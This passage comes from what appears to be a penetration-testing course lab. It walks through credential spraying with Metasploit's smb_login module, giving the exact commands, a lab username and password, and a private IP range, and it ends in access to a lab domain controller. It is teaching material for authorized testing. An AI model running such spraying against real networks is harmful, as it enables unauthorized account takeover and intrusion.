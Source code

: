   - In order to accomplish this, we first obtained initial access to the Linux machine and then used the credentials we found on that machine to compromise a Windows machine. 

  - We obtained more credentials on the Windows machine and will now see if those credentials can be used anywhere else. 

  - Our goal is to gain access to credentials that can access the DC, WINDC01, where our objective lies.

#### Credential Spraying Demonstration

Now that we have a new set of credentials, we can test its access by spraying the credentials across the network. 

1. Demonstrate this by loading the `smb_login` module in Metasploit.

	- `use auxiliary/scanner/smb/smb_login`

2. Fill in the SMBDomain, SMBUser, SMBPass, and RHOSTS fields.

	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set SMBDomain megacorpone`
	
	- `set RHOSTS 172.22.117.0/28`
	
	 ![A screenshot depicts the options settings of the module.](Images/smblogin.PNG)

3. Run the exploit.

	- `run`
	
4. Once the scan gets to 172.22.117.10, you should see a successful logon. This is the IP address of WINDC01, meaning the credentials we cracked were highly privileged and we now have access to a DC.
